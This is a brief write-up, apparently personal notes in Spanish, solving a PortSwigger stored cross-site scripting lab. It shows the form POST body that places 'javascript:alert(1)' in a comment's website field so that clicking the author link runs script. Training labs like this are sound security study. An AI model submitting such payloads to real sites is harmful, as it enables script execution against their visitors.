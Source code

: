 # 8 - Anchor href attribute with double quotes HTML-encoded

> This lab contains a [stored cross-site scripting](https://portswigger.net/web-security/cross-site-scripting/stored) vulnerability in the comment functionality. To solve this lab, submit a comment that calls the `alert` function when the comment author name is clicked.

Cambiamos el post de la website para ejecutar codigo js y listo:\_

```text
csrf=eVRawyL7nnb79R9NaJp18JzGbogTC86d&postId=8
&comment=aaa&name=Aguante+bokita+papa&email=boke%40boke.com
&website=javascript:alert(1)
```

